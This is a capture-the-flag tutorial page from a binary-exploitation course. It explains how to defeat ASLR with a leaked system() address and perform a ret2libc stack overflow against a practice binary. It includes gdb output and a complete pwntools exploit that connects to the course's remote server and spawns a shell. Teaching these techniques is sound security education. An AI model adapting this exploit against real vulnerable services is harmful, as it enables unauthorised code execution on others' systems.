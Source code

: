 ```yaml
---
description: Beating ASLR with a provided leak.
---
```


# groundzero

{% file src="../../.gitbook/assets/groundzero.zip" %}

This binary, we will be beating ASLR using a provided leak. This will be very similar to [_gimme_](../06-pie/gimme.md), but in this case, we are beating ASLR instead of PIE.

To bypass ASLR, we need the address of a function _inside the library_. This means the function must be a **PLT** function rather than one defined inside the binary. Common examples of functions to leak are `system()`, `printf()`, or `puts()`.

### Checking Security

Let's start with running `checksec`:

```bash
$ checksec ./groundzero
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/07-aslr/groundzero/src/groundzero'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We notice that ASLR is not part of this description! This is because the binary _does not know that ASLR is turned on_ because the binary is not affected by ASLR. Only the libraries are affected by ASLR.

{% hint style="danger" %}
The direct consequence of this is that **we will never know if ASLR is turned on for a remote server**. If we write an exploit that ignores ASLR and it doesn't work, we should assume that ASLR is probably enabled, and we will need to leak the `libc` base address to fix our exploit.
{% endhint %}

We also notice no canary, meaning stack overflow exploits are possible. PIE is enabled, but this won't be problematic (_be sure you understand why!_).

### Attack Vector Inspiration

Let's step through `gdb` and see what we can find.

We first notice there is no `win()` function. However, `system@plt` is in the binary, meaning we'll most likely need to call that ourselves. We did something like this in the ROP challenges. We will need an argument to pass to `system()`, which is usually either `/bin/sh` or `cat flag.txt`. If we check for either of those already being in the binary:

```bash
gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/usr/lib/i386-linux-gnu/libc.so.6'(0xf7da2000-0xf7e27000), permission=r--
  0xf7dbd0f5 - 0xf7dbd0fc  →   "/bin/sh" 
gef➤  search-pattern "cat flag.txt"
[+] Searching 'cat flag.txt' in memory
```

`/bin/sh` is in memory! This means we just need to pass its address into `system()` and we'll achieve a shell.

Now that we have the attack vector inspiration, we must execute it. We need a way to leak the `libc` base address so that we know the address of `system()` and `"/bin/sh"`. Then, we need to overflow the buffer and call our `system()` function.

### Static Analysis

If we check `read_in`, there is a call to `printf`. Before this call, there are two items pushed on the stack:

```as
   0x565561e8 <+27>:	push   eax
   0x565561e9 <+28>:	lea    eax,[ebx-0x1fbc]
   0x565561ef <+34>:	push   eax
=> 0x565561f0 <+35>:	call   0x56556050 <printf@plt>
```

If we check the data that is in the top two entries of the stack:

```as
gef➤  x/2wx $esp
0xffffd550:	0x56557008	0xf7c48150
gef➤  x/s 0x56557008
0x56557008:	"System is at: %lp\n"
gef➤  x/wx 0xf7c48150
0xf7c48150 <system>:	0xfb1e0ff3
```

We see that this print statement is printing the address of `system()`! Since this function resides in the `libc` binary, this means that we can use it to leak `libc`.

After this, there is a `gets()` call that has us writing to `ebp-0x34`:

```as
   0x5655620f <+66>:	lea    eax,[ebp-0x34]
   0x56556212 <+69>:	push   eax
=> 0x56556213 <+70>:	call   0x56556070 <gets@plt>
```

This gives us everything we need to write our exploit. We have a way to leak `libc`, then a way to overflow the buffer.

### Exploit

There are two ways to write the exploit.

1. Get all the offsets from `gdb` and use those to get the base address, then find the offset of `/bin/sh` and use that as the argument.
2. Get pwntools to do it all for you and save the hassle of collecting all the information yourself.

We're going to go with the second option. The first one is a good challenge to the reader to test their mastery of `gdb` and writing exploits. The second one will mimic the way we wrote PIE exploits.

We'll start by defining our binary and process. We must define a variable called `libc` (or something similar) that's valued at `elf.libc`. This will let us set our base address once we leak it.

{% hint style="info" %}
This is the same way that we use `elf.address` to define the base address before we called any functions.
{% endhint %}

```python
elf = context.binary = ELF('./groundzero')
libc = elf.libc
proc = remote('vunrotc.cole-ellis.com', 6100)
```

From here, we'll collect the leak from the output and set the base address. When we do this, the functions and addresses will be based on `libc` rather than `elf`, because that is the binary being randomized.

```python
# get the leak
proc.recvuntil('at: ')
leak = int(proc.recvline(), 16)

# get address
libc.address = leak - libc.sym.system
print(f"LIBC leaked! {hex(libc.address)}")
```

I recommend getting in the habit of printing leaks when they happen so you can verify that your code is working. Then, you can verify the accuracy of the leak.

From here, we'll write the exploit.

* We can get the address of `system` using `libc.sym.system`.
* We can get the address of `/bin/sh` using `next(libc.search('/bin/sh'))`. _Why does this work?_ `libc.search()` returns a _generator object_ of all the addresses of the string `/bin/sh`. This is Python's equivalent of an iterator. To get the first address, we can use `next()` to get the first object.

```python
payload = b'A' * 56
payload += p32(libc.sym.system)
payload += p32(0x0)
payload += p32(next(libc.search(b'/bin/sh')))
```

Finally, we'll send the payload and drop into an interactive shell.

```python
proc.sendline(payload)
proc.interactive()
```

If we run this, we'll get a shell, and we can call `cat flag.txt` to get the flag.

```bash
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/07-aslr/groundzero/src/groundzero'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/usr/lib/i386-linux-gnu/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vunrotc.cole-ellis.com on port 6100: Done
/home/joybuzzer/Documents/vunrotc/public/binex/07-aslr/groundzero/src/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  proc.recvuntil('at: ')
LIBC leaked! 0xf7d35000
[*] Switching to interactive mode
$ cat flag.txt
flag{welcome_to_reality}
```

### Putting a Formal Name

This process is also known as a `ret2libc`. The `ret2libc` exploit involves getting the address of a function inside the `libc` binary (we almost always pick `system`), and then jump to that function. The most common form of the `ret2libc` exploit is to jump to `system()` and pass `/bin/sh` as the argument. This is what we did in this exploit.

Since ASLR was enabled, we had to beat ASLR and then perform the `ret2libc`. ASLR is not always enabled for it to be a `ret2libc` exploit. If ASLR is not enabled, we can just jump to `system()` and pass `/bin/sh` as the argument.

Later on, we'll introduce another technique called the `ret2plt`, which beats ASLR but jumps to a location on the PLT table instead of the function itself. This is useful when we don't have a leak, but we know the address of a function in the PLT table. We'll cover this at the end of the ASLR section.

## Full Exploit
{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./groundzero')
libc = elf.libc
proc = remote('vunrotc.cole-ellis.com', 6100)

# get the leak
proc.recvuntil('at: ')
leak = int(proc.recvline(), 16)

# get address
libc.address = leak - libc.sym.system
print(f"LIBC leaked! {hex(libc.address)}")

# perform ret2libc
payload = b'A' * 56
payload += p32(libc.sym.system)
payload += p32(0x0)
payload += p32(next(libc.search(b'/bin/sh')))

proc.sendline(payload)
proc.interactive()
```
{% endcode %}